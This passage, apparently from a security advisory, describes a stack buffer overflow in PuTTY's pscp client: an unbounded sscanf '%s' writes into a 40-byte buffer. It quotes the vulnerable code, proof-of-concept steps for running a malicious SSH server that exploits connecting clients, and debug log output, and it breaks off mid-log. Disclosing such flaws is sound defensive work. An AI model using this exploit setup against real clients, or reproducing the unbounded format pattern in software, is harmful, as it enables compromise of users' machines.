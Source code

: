 Details
-------

The vulnerable code is located in `pscp.c` [4] line 1498 (HEAD) and is based on an
unbound `sscanf` string format descriptor storing an arbitrary length string in
a 40byte fixed size stack buffer `sizestr[40]`.

Inline annotations are prefixed with `//#!`

	1491         /*
	1492          * If we get here, we must have seen SCP_SINK_FILE or
	1493          * SCP_SINK_DIR.
	1494          */
	1495         {
	1496             char sizestr[40];										//#! fixed size buffer
	1497         
	1498             if (sscanf(act->buf, "%lo %s %n", &act->permissions,   //#! unbound cstr %s written to sizestr
	1499                        sizestr, &i) != 2)



Proof of Concept
----------------

Prerequisites: 

* install python 2.7.x
* issue `#> pip install paramiko` to install `paramiko` ssh library for python 2.x
* make sure `poc.py` and `test_rsa.key` are in the same folder

poc:

    Usage:   [<listen_ip:port>] [--no-checks]
    Default:  0.0.0.0:22
    
    --no-checks ... disable client banner checks (for testing putty clones)

1. start the malicious sshd by running `poc.py` which by default will bind all ips, port 22.

		INFO     monkey-patch paramiko.Transport.open_channel
		INFO     monkey-patch paramiko.Transport._check_banner
		INFO     --start--
		INFO     ServerHostKey: 60733844cb5186657fdedaa22b5a57d5
		INFO     BIND: ('0.0.0.0', 22)
		INFO     Listening for connection ...
		...

2. try to retrieve any file from the malicious sshd by executing `pscp`. Provide any user/password/pubkey, the server will just accept anything.

		c:\> pscp.exe -scp root@localhost:/etc/passwd .
		root@localhost's password: anything

3. key-exchange and authentication

		...
		INFO     new peer: ('127.0.0.1', 6127)
		DEBUG    starting thread (server mode): 0x2411750L
		INFO     Connected (version 2.0, client PuTTY_Release_0.66)
		DEBUG    kex algos:[u'diffie-hellman-group-exchange-sha256', u'diffie-hellman-group-exchange-sha1', u'diffie-hellman-group14-sha1', u'diffie-hellman-group1-sha1', u'rsa2048-sha256', u'rsa1024-sha1'] server key:[u'ssh-rsa', u'ssh-dss'] client encrypt:[u'aes256-ctr', u'aes256-cbc', u'rijndael-cbc@lysator.liu.se', u'aes192-ctr', u'aes192-cbc', u'aes128-ctr', u'aes128-cbc', u'blowfish-ctr', u'blowfish-cbc', u'3des-ctr', u'3des-cbc', u'arcfour256', u'arcfour128'] server encrypt:[u'aes256-ctr', u'aes256-cbc', u'rijndael-cbc@lysator.liu.se', u'aes192-ctr', u'aes192-cbc', u'aes128-ctr', u'aes128-cbc', u'blowfish-ctr', u'blowfish-cbc', u'3des-ctr', u'3des-cbc', u'arcfour256', u'arcfour128'] client mac:[u'hmac-sha2-256', u'hmac-sha1', u'hmac-sha1-96', u'hmac-md5'] server mac:[u'hmac-sha2-256', u'hmac-sha1', u'hmac-sha1-96', u'hmac-md5'] client compress:[u'none', u'zlib'] server compress:[u'none', u'zlib'] client lang:[u''] server lang:[u''] kex follows?False
		DEBUG    Ciphers agreed: local=aes256-ctr, remote=aes256-ctr